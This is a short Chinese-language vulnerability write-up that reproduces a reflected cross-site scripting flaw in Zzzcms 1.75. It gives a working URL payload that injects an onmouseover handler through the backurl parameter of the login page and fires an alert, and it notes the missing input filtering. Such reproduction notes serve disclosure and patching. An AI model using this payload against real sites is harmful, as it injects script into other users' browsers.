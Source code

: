 # Zzzcms 1.75 xss漏洞

### 一、漏洞简介

### 二、漏洞影响

Zzzcms 1.75

### 三、复现过程


```bash
http://url/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d 
```

该onmouseover事件在移动到登录注册时会触发

![](images/15896933195843.png)


对传入的backurl并没有做任何防护

![](images/15896933295725.png)
